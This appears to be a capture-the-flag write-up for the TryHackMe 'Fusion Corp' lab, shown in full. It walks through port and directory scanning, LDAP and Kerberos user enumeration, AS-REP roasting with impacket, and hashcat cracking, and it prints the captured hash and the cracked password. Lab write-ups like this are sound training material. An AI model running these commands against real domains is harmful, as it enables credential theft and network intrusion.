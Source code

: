 ### Fusion Crop

![image](https://user-images.githubusercontent.com/5285547/122137683-1f656e00-ce3d-11eb-9e38-8ad66e83b6ee.png)

[Room Link](https://tryhackme.com/room/fusioncorp)  
Created by: [MrSeth6797](https://tryhackme.com/p/MrSeth6797)

## Enumeration

### Nmap

```bash
nmap -p- 10.10.222.16 
```
```bash
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49669/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49679/tcp open  unknown
49691/tcp open  unknown
49698/tcp open  unknown
```

### Gobuster

```bash
gobuster dir -u "http://10.10.222.16/"  -w  /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x txt,html,gz,php,js,zip,img,bak,opvn
```
```bash
/index.html           (Status: 200) [Size: 53888]
/blog.html            (Status: 200) [Size: 22163]
/img                  (Status: 301) [Size: 147] [--> http://10.10.222.16/img/]
/css                  (Status: 301) [Size: 147] [--> http://10.10.222.16/css/]
/Index.html           (Status: 200) [Size: 53888]                             
/lib                  (Status: 301) [Size: 147] [--> http://10.10.222.16/lib/]
/js                   (Status: 301) [Size: 146] [--> http://10.10.222.16/js/] 
/Blog.html            (Status: 200) [Size: 22163]                             
/backup               (Status: 301) [Size: 150] [--> http://10.10.222.16/backup/]
```

## User 1

In /backups we find a list of employees 

![image](https://user-images.githubusercontent.com/5285547/122767322-72ef1600-d29a-11eb-9539-d73b287f58f3.png)

![image](https://user-images.githubusercontent.com/5285547/122768231-4f789b00-d29b-11eb-9fdd-6bbc9119999b.png)

Extracting the names using regex I put the usernames into a new file called users.txt, so I can use windows tools to start to enumerate for any valid users. 

## Domain name

This can be seen in nmap output or via a quick ldapsearch

### ldapserach

```bash
ldapsearch -x -h 10.10.222.16 -s base namingcontexts
```
```bash
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=fusion,DC=corp
namingcontexts: CN=Configuration,DC=fusion,DC=corp
namingcontexts: CN=Schema,CN=Configuration,DC=fusion,DC=corp
namingcontexts: DC=DomainDnsZones,DC=fusion,DC=corp
namingcontexts: DC=ForestDnsZones,DC=fusion,DC=corp

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
``

Add fusion.corp to /etc/hosts

```bash
sudo nano /etc/hosts
```

### Finding a valid user

[Kerbrute Tool](https://github.com/ropnop/kerbrute)

Install
```
go get github.com/ropnop/kerbrute
```

```bash
./kerbrute userenum -d 'fusion.corp' --dc 10.10.33.48 ~/users.txt
```

![image](https://user-images.githubusercontent.com/5285547/122769576-91eea780-d29c-11eb-9a3a-8066ab594014.png)


## User 1

```
lparker@fusion.corp
```

Making a new users.txt file with just "lparker" our valid user name, I use a tool "GetNPUsers.py" to do a asreproast attack. 

```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py 'fusion.corp/' -usersfile ~/users.txt -no-pass -dc-ip 10.10.222.16 -format hashcat -outputfile hashes.asreproast
```

We get the hash

```cat hashes.asreproast```                                                  

```
$krb5asrep$23$lparker@FUSION.CORP:86658453c7705714369e31d6bd1cd144$728e7c5e2ae3648d5b0b3056b3f76c611141091a620dd460ff30bc8c1dd140c156f671ce414e23c52b1101fa834989668947194ec5bcfb8131acd2ec4fadedb535b6d8695e3bc941a8256537840c167890adb420516882f74af905fce6ada1a7623d8ca7b916c7536edefb2f95c54fea38671d860aad2dd7b307d828a891aed3b9ebba49a24694fb15a61bcf1231a135283eeb754540d6083384a486c7b3e0b541dfc00cbf26d6d460525a52261d83c1a25c3e1bd5577010b987ca026937d0467886f9fe3eb91a790fcf0b6120d7a93d021851c4d4217d63bb9e0c0dc4401e1139d3dff01ada7d3871cd
```

## Crack the hash! 

```
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -O 
```

```
$krb5asrep$23$lparker@FUSION.CORP:86658453c7705714369e31d6bd1cd144$728e7c5e2ae3648d5b0b3056b3f76c611141091a620dd460ff30bc8c1dd140c156f671ce414e23c52b1101fa834989668947194ec5bcfb8131acd2ec4fadedb535b6d8695e3bc941a8256537840c167890adb420516882f74af905fce6ada1a7623d8ca7b916c7536edefb2f95c54fea38671d860aad2dd7b307d828a891aed3b9ebba49a24694fb15a61bcf1231a135283eeb754540d6083384a486c7b3e0b541dfc00cbf26d6d460525a52261d83c1a25c3e1bd5577010b987ca026937d0467886f9fe3eb91a790fcf0b6120d7a93d021851c4d4217d63bb9e0c0dc4401e1139d3dff01ada7d3871cd:!!abbylvzsvs2k6!
```

